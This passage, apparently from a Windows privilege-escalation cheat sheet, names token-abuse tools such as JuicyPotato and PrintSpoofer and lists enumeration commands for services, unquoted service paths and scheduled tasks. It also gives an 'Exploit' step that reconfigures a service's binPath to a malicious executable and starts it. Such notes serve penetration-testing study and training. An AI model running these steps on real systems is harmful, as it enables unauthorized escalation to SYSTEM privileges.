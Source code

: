 👉 If enabled, you can abuse tools like **JuicyPotato**, **PrintSpoofer**, **RoguePotato**, or **GodPotato** to escalate to SYSTEM.

---

## ⚙️ 3. Misconfigured Services
List services:
```
sc query state= all
wmic service get name,displayname,pathname,startmode
```

Check a specific service:
```
sc qc <service_name>
sc query <service_name>
```

Look for:
- `SERVICE_START_NAME: LocalSystem`
- Writable binary path or parameters
- Unquoted service paths

Exploit:
```
sc config <service_name> binPath= "C:\path\malicious.exe"
sc start <service_name>
```

---

## 🎯 4. Unquoted Service Paths
Check for unquoted paths with spaces:
```
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\" | findstr /i " "
```

Example vulnerable path:
```
C:\Program Files\Some Service\service.exe
```
If user can write to `C:\Program Files\Some.exe`, drop malicious exe → executed as SYSTEM.

---

## ⏰ 5. Scheduled Tasks
Check tasks:
```
schtasks /query /fo LIST /v
```
If task runs with SYSTEM and points to writable file → replace file with payload.

---

